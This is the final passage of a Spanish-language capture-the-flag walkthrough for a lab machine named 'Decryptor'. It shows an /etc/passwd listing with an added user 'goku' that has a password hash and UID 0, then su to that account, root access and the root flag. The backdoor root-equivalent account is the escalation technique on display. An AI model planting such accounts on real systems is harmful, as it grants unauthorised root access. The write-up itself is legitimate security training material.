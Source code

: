 ```bash
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
debian:x:1000:1000:debian,,,:/home/debian:/usr/sbin/nologin
ftp:x:102:110:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
mario:x:1001:1001::/home/mario:/bin/bash
chiquero:x:1002:1002::/home/chiquero:/bin/bash
goku:$1$V3UaTZN4$SISwXiYffpXFLh8OJTqIu.:0:0::/home/goku:/bin/bash
chiquero@Decryptor:/home/mario$ 
```
Òbservamos en la penultima linea que el usuario `goku` se creo exitosamente y con el UID y GUID de `root`.

Accedemos al usario mas poderoso de todos `goku` y validamos si es cierto.

```bash
hiquero@Decryptor:/home/mario$ su goku
Password: 

root@Decryptor:/home/mario# whoami
root
root@Decryptor:/home/mario# 
```

Bingo!, Somos `root`

### 5.1 Flag de root

Buscamos la flag de `root` para asi terminar este reto, que no estan complicado pero tiene muchas cositas que repasar.

```bash
root@Decryptor:/home/mario# cd /root/
root@Decryptor:/root# ls
root.txt
root@Decryptor:/root# cat root.txt 
84c853bhfs5gsdfvsf4dasbsrha3a
root@Decryptor:/root# 

```

root flag: `84c853bhfs5gsdfvsf4dasbsrha3a`

## 6. Observaciones y Recomendaciones

* Siempre es bueno repasar un poco de teoría para tener claros algunos conceptos y entender lo que estamos haciendo y ejecutando. Por más fácil que parezca un reto, siempre tiene un valor de aprendizaje significativo, dependiendo de tu perspectiva. Como me dijo un gerente en un trabajo anterior: "No es parecer, es ser".
